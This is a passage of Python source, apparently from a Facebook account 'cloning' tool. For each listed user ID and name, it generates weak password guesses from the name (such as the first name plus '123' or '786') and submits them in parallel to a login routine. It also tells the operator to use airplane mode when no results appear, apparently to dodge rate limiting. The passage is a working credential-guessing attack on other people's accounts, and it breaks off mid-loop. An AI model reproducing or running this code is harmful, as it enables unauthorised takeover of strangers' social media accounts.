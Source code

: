 				for yntkts in self.id:

					try:

						uid, name = yntkts.split('|')

						xz = name.split(' ')

						if len(xz) == 1:

							pwx = [name, xz[0]+"123", xz[0]+"1234", xz[0]+"786", xz[0]+"12345"]

						elif len(xz) == 2:

							pwx = [name, xz[0]+"123", xz[0]+"1234", xz[0]+"786", xz[0]+"12345"]

						elif len(xz) == 3:

							pwx = [name, xz[0]+"123", xz[0]+"1234", xz[0]+"786", xz[0]+"12345"]

						elif len(xz) == 4:

							pwx = [name, xz[0]+"123", xz[0]+"1234", xz[0]+"786", xz[0]+"12345"]

						else:

							pwx = [name, xz[0]+"123", xz[0]+"1234", xz[0]+"786", xz[0]+"12345"]

						_ngentot_gratis_.submit(self.__mbasic__, uid, pwx)

					except:

						pass

			os.remove(self.apk)

			hasil(ok,cp)

		elif yan in ('3', '03'):

			os.system("clear")

			print(banner)

			time.sleep(1)

			print('\033[1;37m[+]\033[1;33m FILE CLONING ONLY OK IDS ')

			print('\033[1;37m[+]\033[1;36m TOTAL IDS \033[1;91m: \033[1;32m%s ' % len(self.id))

			print('\033[1;37m[+]\033[1;36m𝗥𝗔𝗝 PROCESS HAS BEEN STARTED')

			print(50*"\033[1;97m_")

			print('      \033[1;97m\033[1;41m [ IF  NO RESULT USE AIRPLANE MODE ] \033[0m\033[1;93m')

			print(50*"\033[1;97m_")

			with ThreadPoolExecutor(max_workers=35) as (_ngentot_gratis_):

				for yntkts in self.id:

					try:

						uid, name = yntkts.split('|')

